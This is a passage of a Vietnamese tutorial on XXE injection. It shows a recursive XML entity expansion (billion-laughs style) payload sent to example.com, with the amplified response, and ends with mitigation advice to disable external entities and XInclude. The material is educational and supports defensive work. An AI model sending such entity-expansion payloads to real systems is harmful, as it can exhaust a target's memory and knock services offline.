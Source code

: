 Respone:
```
HTTP/1.0 200 OK 

Hello endy and welcome to my website!
```


Khi ta thay đổi XML ở Request thành như sau:
```xml
POST http://example.com/xml HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ENTITY name "endy">
  <!ENTITY name2 "&name;&name;">
  <!ENTITY name3 "&name2;&name2;&name2;&name2;">
  <!ENTITY name4 "&name3;&name3;&name3;&name3;">
  ]>
  <name>  
  Hello &name4;
  </name>
```

Thì cho ta respone:
```xml
Response
HTTP/1.0 200 OK 

Hello endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy endy
```

Càng nhiều biến ``name`` được đệ quy thì sẽ tiêu tốn càng nhiều bộ nhớ, và càng dễ khiến target bị tràn bộ nhớ

## 12. Cách hạn chế lỗ hổng XXE injection
Theo portswigger thì hầu như tất cả lổ hỏng XXE đều phát sinh từ thư viện XML parser của ứng dụng hổ trợ các tính năng XML nguy hiểm mà ứng dụng không cần sử dụng tới. Cách dễ và hiệu quả nhất để ngăn chặn các cuộc tấn công XXE là vô hiệu hóa các tính năng đó.

Nói chung chỉ cần vô hiệu hóa external entities và XInclude là đủ. Điều này có thể được thực hiện bằng cách tùy chọn cấu hình hoặc ghi đè các hành vi mặc định.

## Link tham khảo:
https://portswigger.net/web-security/xxe
https://brightsec.com/blog/xxe-vulnerability/